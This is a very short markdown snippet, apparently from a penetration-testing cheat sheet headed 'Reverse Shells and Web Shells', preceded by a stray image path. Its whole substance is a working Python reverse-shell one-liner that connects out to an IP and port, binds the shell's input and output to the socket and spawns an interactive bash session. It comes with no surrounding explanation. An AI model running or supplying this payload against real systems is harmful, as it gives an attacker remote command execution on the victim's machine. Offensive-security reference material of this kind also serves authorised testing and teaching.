 # Reverse Shells and Web Shells

### Python one liner 
```python3 -c 'IP="127.0.0.1";PORT=4444;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
